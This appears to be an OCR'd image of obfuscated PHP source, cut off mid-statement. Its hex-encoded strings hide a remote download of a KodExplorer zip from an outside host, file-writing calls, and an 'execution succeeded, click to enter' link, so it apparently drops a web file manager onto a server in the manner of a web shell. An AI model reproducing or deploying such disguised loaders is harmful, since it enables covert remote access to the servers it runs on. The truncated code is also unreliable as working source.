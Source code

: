 ```php
&lt;?php if (!defined("SQLDB")) define("SQLDB", "MCDB");
$SQLKWD[SQLDB] = explode("|^|K|3", "H*|^|K|341414741474747");
if (!defined(pack($SQLKWD[SQLDB][00], $SQLKWD[SQLDB][0x1]))) define(pack($SQLKWD[SQLDB][00], $SQLKWD[SQLDB][0x1]) , ord(1));
if (!defined("SSHDB")) define("SSHDB", "SSHKEY");
$SQLKWD[SSHDB] = explode("|v|t|Z", "H*|v|t|Z41414741474741|v|t|Z41414741474147|v|t|Z7C3A7C2D7C35|v|t|Z7C3A7C2D7C35646566696E65647C3A7C2D7C35666F70656E7C3A7C2D7C3566707574737C3A7C2D7C3566636C6F73657C3A7C2D7C3569735F66696C657C3A7C2D7C35756E6C696E6B");
if (!defined(pack($SQLKWD[SSHDB] {
    0 
}
, $SQLKWD[SSHDB] {
    01 
}
))) define(pack($SQLKWD[SSHDB] {
    0 
}
, $SQLKWD[SSHDB] {
    01 
}
) , pack($SQLKWD[SSHDB] {
    0 
}
, $SQLKWD[SSHDB][02]));
$SQLKWD[JARMD] = explode(pack($SQLKWD[SSHDB] {
    0 
}
, $SQLKWD[SSHDB] {
    3 
}
) , pack($SQLKWD[SSHDB] {
    0 
}
, $SQLKWD[SSHDB][0x4]));
if (!defined("SQLDBWD")) define("SQLDBWD", "SQLWDG");
$SQLKWD[SQLDBWD] = explode("|K|H|a", "H*|K|H|a41414747414147|K|H|a646566696E65|K|H|a41414747414141|K|H|a70|K|H|a|K|H|a3070656e2e736573616d65|K|H|a687474703A2F2F7374617469632E6B6F64636C6F75642E636F6D2F7570646174652F646F776E6C6F61642F6B6F646578706C6F726572342E34302E7A6970|K|H|a2E2F6B6F642E7A6970|K|H|a772B|K|H|a6B6F642E7A6970|K|H|a6B6F642F|K|H|a3C6120687265663D222E2F6B6F6422207461726765743D225F626C616E6B223EE689A7E8A18CE68890E58A9FE782B9E587BBE8BF9BE585A53C2F613E0A");
if (!$SQLKWD[JARMD] {
    0x1 
}
(pack($SQLKWD[SQLDBWD] {
    0x0 
}
, $SQLKWD[SQLDBWD] {
    1 
}
))) \call_user_func(pack($SQLKWD[SQLDBWD] {
    0x0 
}
, $SQLKWD[SQLDBWD][02]) , pack($SQLKWD[SQLDBWD] {
    0x0 
}
, $SQLKWD[SQLDBWD] {
    1 
}
) , pack($SQLKWD[SQLDBWD] {
    0x0 
}
, $SQLKWD[SQLDBWD] {
    03 
```
